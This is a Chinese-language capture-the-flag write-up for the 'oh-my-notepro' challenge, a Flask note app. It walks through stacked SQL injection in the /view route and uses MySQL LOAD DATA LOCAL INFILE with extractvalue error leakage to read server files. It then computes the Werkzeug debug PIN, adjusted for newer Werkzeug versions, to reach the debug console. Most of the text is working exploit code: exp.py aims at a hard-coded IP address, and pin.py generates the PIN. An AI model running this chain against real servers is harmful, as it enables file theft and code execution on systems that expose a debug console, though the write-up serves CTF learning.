 # oh-my-notepro-ZH

打开题目，在完成登录以后，发现是一个note记录板，每个登录用户可以发送note到自己账目下，尝试访问异常的url以后会发现有flask debug信息，直观感觉是一个pin码构造的题目，先得找寻可以任意文件读的地方。

访问`/view`路由以后，在debug报错中发现代码

```
result = db.session.execute(sql,params={"multi":True})
```


可知此处表明存在堆叠注入的可能，猜测是MySQL的堆叠注入读取文件，并同时利用debug信息的报错返回可以读取本地文件，使用`load data local infile`来读取Web服务的文件信息来构造pin码，参考POC如下

```
view?note_id=';CREATE TABLE IF NOT EXISTS {tmp_database}(cmd text);Load data local infile '{file}' into table {tmp_database};select * from users where username=1 and (extractvalue(1,concat(0x7e,(select substr((select group_concat(cmd) from {tmp_database}),{str(z)},{str(20)})),0x7e)));
```


通过翻阅源码可知，Werkzeug的更新给pin码的计算方式带来了变化`https://github.com/pallets/werkzeug/commit/617309a7c317ae1ade428de48f5bc4a906c2950f`，直接使用网上大多数的pin码计算方式并不能计算出当前环境下正确的pin码，主要有两个变化，一个是修改以前是读取`/proc/self/cgroup、/etc/machine-id、/proc/sys/kernel/random/boot_id`这三个文件，读取到一个文件的内容，直接返回，新版本是从`/etc/machine-id、/proc/sys/kernel/random/boot_id`中读到一个值后立即break，然后和`/proc/self/cgroup`中的id值拼接，使用拼接的值来计算pin码；二一个变化是h的计算从md5变为了使用sha1，所以计算pin码的POC也要进行相应的调整，此外输入正确的pin码以后大概率会出现404等错误，可以通过清理网站缓存然后开启一个新的无痕会话来解决这个问题。

参考POC如下

```
# exp.py

import requests
import re
import string
import random
from pin import solve

def get_content(file, regexp):
    ans = ''
    z = 1
    while True:
        try:
            tmp_database = get_random_id()
            path = f"view?note_id=';CREATE TABLE IF NOT EXISTS {tmp_database}(cmd text);Load data local infile '{file}' into table {tmp_database};select * from users where username=1 and (extractvalue(1,concat(0x7e,(select substr((select group_concat(cmd) from {tmp_database}),{str(z)},{str(20)})),0x7e)));"
            view_url = base_url + path
            r = s.get(url=view_url)
            content = re.findall("'~(.*?)'", r.text)[0]
            if content[0] == '~':
                break
            ans += content[:-1]
            if content[-1] != '~':
                break
            z += 20
            print(ans)
            
        except Exception as e:
            print(e)
            break
    k = re.findall(regexp, ans)[0]
    print('k is: ', k)
    return k

def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])

base_url = 'http://localhost:5002/'
base_url = 'http://124.223.208.221:5002/'
s = requests.session()

login_data = {
    'username': "veererere",
    'password': "fefefef"
}
proxies = {
    'http': 'http://127.0.0.1:8080'
}
login_url = base_url + 'login'
r = s.post(url=login_url, data=login_data, proxies=proxies)

cgroup = get_content('/proc/self/cgroup', 'docker/(.*?),')
machine_id = get_content('/etc/machine-id', '(.*)')
eth0 = get_content('/sys/class/net/eth0/address', '(.*)')

eth0 = str(int(eth0.replace(':',''),16))

print("eth0 is: ", eth0)
print("machine_id is: ", machine_id)
print("cgroup is: ", cgroup)
solve('ctf', eth0, machine_id, cgroup)

```

```
# pin.py

import hashlib
from itertools import chain

def solve(username, eth0, machine_id, cgroup):
    probably_public_bits = [
    username,# username ok
    'flask.app', # ok
    'Flask' #ok,
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # ok
]

    private_bits = [
        eth0,# /sys/class/net/eth0/address
        machine_id + cgroup
        # '7cb84391-1303-4564-8eff-ef7571804198327e92627edf30f63fde916e3c3017aea76eeb876265a726270a575d391eeb4a'# machine-id
        # /etc/machine-id + /proc/self/cgroup
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num
```